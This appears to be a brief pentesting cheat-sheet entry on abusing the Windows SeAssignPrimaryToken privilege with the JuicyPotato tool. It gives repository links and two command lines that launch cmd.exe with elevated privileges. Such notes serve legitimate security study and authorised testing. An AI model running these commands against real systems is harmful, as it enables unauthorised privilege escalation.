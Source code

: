 # SeAssignPrimaryToken
#juicypotato
https://github.com/ohpe/juicy-potato
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

```
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t *
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c <CLSID>
```